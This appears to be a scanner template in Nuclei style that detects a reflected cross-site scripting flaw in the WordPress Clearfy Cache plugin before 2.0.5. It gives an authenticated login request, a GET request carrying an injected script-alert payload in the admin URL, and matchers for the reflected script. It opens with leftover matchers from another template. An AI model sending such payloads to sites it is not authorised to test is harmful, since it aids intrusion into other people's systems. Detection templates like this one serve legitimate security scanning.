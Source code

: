 **Type - word**
- part - body
- words
    1. Your account has been activated!
    2. From your account dashboard you can view your
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress Clearfy Cache \<2.0.5 - Cross-Site Scripting
## Description
- WordPress Clearfy Cache 2.0.5 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,authenticated,clearfy-cache,wpscan,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=gonzales-wbcr_clearfy&action=index&wbcr_assets_manager=1&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(1)\</script>
    2. Webcraftic Clearfy - WordPress optimization plugin
- condition - and

**Type - word**
- part - header
- words
    1. text/html
